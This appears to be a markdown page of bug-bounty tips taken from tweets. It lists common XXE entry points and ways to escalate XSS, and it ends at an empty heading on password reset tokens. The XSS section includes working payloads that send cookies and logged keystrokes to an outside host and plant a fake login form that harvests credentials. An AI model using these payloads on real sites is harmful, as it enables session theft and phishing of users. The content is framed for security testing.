 ## Common XXE Weakpoints

Source: https://twitter.com/Bugcrowd/status/1342184648856616972

```
XXE's are still quite common, and they're usually a P1! 
Here are places that you can look for them:

1. Uploading Open XML documents such as MS Offics docs (docx, xlsx, pptx). They're all just zip files filled with XML files. If these documents get parsed on the server-side, there's a chance that they will also parse external entities within those files.

2. Functionality that parses RSS feeds (they're XML too!)

3. Functionality that parses HTML (for example, converting HTML to PDF)

4.  Functionality that parses sitemap.xml files.

5. SAML requests.

6. Content-Type with application/json can also be replaced with application/xml. Many parsers support that.

7. SVG files (if they get parsed in some way on the server)
```

## Escalating XSS

Source: https://twitter.com/Bugcrowd/status/1339417608169222145

```
Here are a few ways to make the most of an XSS.

1. Grab the victim's cookies by redirecting to an attacker's server and appending the cookie value, e.g. document.location='bugcrowd.com/?'+document.cookie

2. Perform a sensitive action as the victim user (such as changing their password or email address). Having an XSS allows you to bypass SOP and Anti-CSRF mechanisms. See here for some payloads + inspiration: https://github.com/hakluke/weaponised-XSS-payloads

3. Plant a JavaScript keylogger (from https://github.com/swisskyrepo/PayloadsAllTheThings)
<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>

4. Redress the window with a fake HTML login form to phish credentials: document.body.innerHTML = "<form action='https://bugcrowd.com'><input type='text' value='email' name='email'><input type='password' value='password' name='password'><input type='submit'></form>"
```

## Find Leaky Password Reset Tokens

Source: https://twitter.com/hakluke/status/1300392121065594881
